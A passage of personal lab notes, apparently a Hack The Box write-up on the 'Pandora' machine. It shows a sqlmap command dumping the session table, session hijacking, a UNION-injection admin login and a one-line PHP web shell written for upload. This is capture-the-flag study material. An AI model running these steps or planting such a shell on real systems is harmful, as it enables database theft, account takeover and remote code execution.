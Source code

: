 ```
sqlmap -r pandora.req --batch -D pandora -T tsessions_php --dump
```

Lots of sessions 

![[HackTheBox/Linux/attachments/Pasted image 20250511213630.png]]

Copy one of these strings and paste it into the session_id parameter in the URL

![[HackTheBox/Linux/attachments/Pasted image 20250511213727.png]]
- this didn't work or log us in.

Try pasting the session id into cookies in dev tools
![[HackTheBox/Linux/attachments/Pasted image 20250511214149.png]]
- refresh the page after pasting, but nothing happens :/

Maybe the session is dead? 

Trying a different session_id by pasting it into the URL an refreshing the page and we get logged in as matt

![[HackTheBox/Linux/attachments/Pasted image 20250511220045.png]]
- clicking around and it doesn't seem like matt is an admin
- try another session id?

Let's try using the union injection to login as admin by placing a php serialized object that it expects

### Login using UNION injection

Construct payload in the URL 
![[HackTheBox/Linux/attachments/Pasted image 20250511220354.png]]

Response 
![[HackTheBox/Linux/attachments/Pasted image 20250511220423.png]]
- get the tsessions_php table name

Construct payload with some info from the sqlmap table dump 
![[HackTheBox/Linux/attachments/Pasted image 20250511220656.png]]

Change "daniel" to "admin" and change s to 5 (characters)

![[HackTheBox/Linux/attachments/Pasted image 20250511220844.png]]

This grants us access to the app as an admin! woop!
![[HackTheBox/Linux/attachments/Pasted image 20250511220920.png]]

Let's try to upload a file
![[HackTheBox/Linux/attachments/Pasted image 20250511221017.png]]

Create a quick php script to prove we can get code execution
```
<?php
system($_REQUEST['cmd']);
?>
```
